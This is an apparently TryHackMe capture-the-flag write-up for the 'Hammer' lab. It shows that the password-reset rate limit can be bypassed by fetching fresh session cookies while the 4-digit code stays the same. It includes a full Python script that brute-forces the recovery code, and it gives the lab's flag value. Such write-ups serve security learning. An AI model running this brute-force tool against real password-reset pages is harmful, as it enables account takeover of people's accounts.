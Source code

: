 # Brute forcing 4-digit code

Using the email `tester@hammer.thm` we have found from the enumeration phase, we can explore the reset password feature.

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests


class BruteForce:

    s = requests.Session()

    N = 8
    MAX_CODE = 9999
    PORT = 1337
    EMAIL = 'tester@hammer.thm'

    def __init__(self, IP):
        self.IP = IP

        self.headers = {
            'Host': f'{IP}{self.PORT}',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
        }

        self.URL = f'http://{IP}:{self.PORT}'

    def retrieve_new_session(self):
        self.s = requests.Session()

        # session is updated automatically
        self.s.get(f'{self.URL}/index.php', headers=self.headers)

    def associate_email_with_new_session(self):
        data = {
            'email': self.EMAIL
        }

        self.s.post(f'{self.URL}/reset_password.php',
                    headers=self.headers, data=data)

    def start(self):
        try:
            # retrieve initial session
            self.retrieve_new_session()

            # enter email
            self.associate_email_with_new_session()

            iterations = self.MAX_CODE+1

            for i in range(1000, iterations):

                if i % self.N == 0 and i != 0:
                    print('[INFO] Retrieving new PHPSESSID')

                    # request for a new PHPSESSID
                    self.retrieve_new_session()

                    # enter email
                    self.associate_email_with_new_session()

                # zero pads to 4 digits
                code = f'{i:04d}'

                data = {
                    'recovery_code': code,
                    's': 200
                }

                print(f'[INFO] Trying code={code}')

                res = self.s.post(f'{self.URL}/reset_password.php',
                                  headers=self.headers, data=data)

                res_text = res.text
                res_status_code = res.status_code
                res_content_length = len(res.text)
                req_cookies = self.s.cookies.get_dict()

                print(f'status={res_status_code} content_length={
                    res_content_length} cookies={req_cookies}')

                # wrong code
                if 'Invalid or expired recovery code!' in res_text:
                    print("\033[91mWrong code!\033[0m")

                # valid code found
                else:
                    print("\033[92mSuccess!\033[0m")
                    print(f'code={code}')
                    exit()

        except KeyboardInterrupt:
            exit()


IP = input('[!] Enter the target IP address: ')

bruteforce = BruteForce(IP)
bruteforce.start()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
